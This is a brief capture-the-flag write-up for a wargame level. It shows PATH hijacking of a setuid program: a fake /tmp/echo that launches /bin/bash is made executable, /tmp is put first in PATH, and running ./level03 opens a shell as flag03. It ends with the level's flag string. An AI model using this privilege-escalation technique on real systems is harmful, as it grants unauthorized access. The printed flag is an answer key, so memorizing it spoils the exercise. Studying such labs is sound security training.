 https://www.cgsecurity.org/Articles/SecProg/Art1/index-fr.html

https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code

https://askubuntu.com/questions/857066/meaning-of-the-access-permissions-rws-and-root-root-of-usr-bin-sudo

File has a weird CHMOD.

Security threat, can replace env variable

`echo "/bin/bash" > /tmp/echo`

Create a fake echo that will execute /bin/bash, that is a new connection to our shell with the current user's permission

`chmod 777 /tmp/echo`

otherwise the file is `-rw-rw-r-- 1 level03 level03 10 Sep 22 02:19 /tmp/echo` and flag03 can't execute it


`export PATH=/tmp:$PATH`

Do command `env` and see path went from:

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

to 

PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

So when calling env, the shell is going to read PATH variable to see where is the file to execute and will execute the first it finds, here our fake echo in tmp

then execute script `./level03`

You are now flag3 because you "opened" a new shell with the rights of flag03

`getflag` gives `qi0maab88jeaj46qoumi7maus`
